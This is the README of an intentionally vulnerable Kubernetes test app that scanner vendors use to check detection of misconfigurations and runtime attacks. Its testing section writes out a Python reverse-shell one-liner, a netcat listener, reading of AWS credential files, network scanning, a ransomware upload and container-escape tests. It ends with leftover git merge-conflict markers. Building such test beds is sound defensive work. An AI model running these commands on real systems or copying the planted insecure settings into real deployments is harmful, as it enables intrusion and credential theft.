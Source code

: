 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

- [Deployment](#deployment)
- [Issues to Test](#this-repo-contains-the-following-issues)
- [Testing Details](#testing)

## Deployment:

This will create an EKS cluster with some insecure application pods for testing.

1. Make sure you have [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli), [Helm](https://helm.sh/docs/intro/install/), [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html), [eksctl](https://eksctl.io/installation/) and a valid AWS user configured

2. Move to terraform directory, `cd terraform` and rejoice!

3. Apply the terraform, this creates an EKS cluster for testing: `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.

4. Add the Terraform EKS details to your kubeconfig
```
aws eks --region $(terraform output -raw region) update-kubeconfig \
    --name $(terraform output -raw cluster_name)
```

5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. [Console](https://console.aws.amazon.com/eks/home#/clusters) > Access > Create access entry > Select your current user > Add AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy. I didn't test this, but there's probably a one liner to do this with CLI like `aws eks create-access-entry --cluster-name my-cluster --principal-arn arn:aws:iam::111122223333:user/my-user --type Standard --username my-user`

6. Move to the helm chart directory `cd ../insecure-chart/`

7. Deploy the insecure app, busybox pod, and workload security evaluator `helm install insecure-app . --create-namespace --namespace=insecure-app`

8. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n insecure-app`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For testing insecure-app0js, run `kubectl port-forward pod/[POD-NAME] 3000:3000 -n insecure-js`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

9. `terraform destroy` when you're done!


## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`
<<<<<<< HEAD
=======

Readme change
>>>>>>> b8e1c4d61873ed7566d33dcd8bd4b76bcf86e450
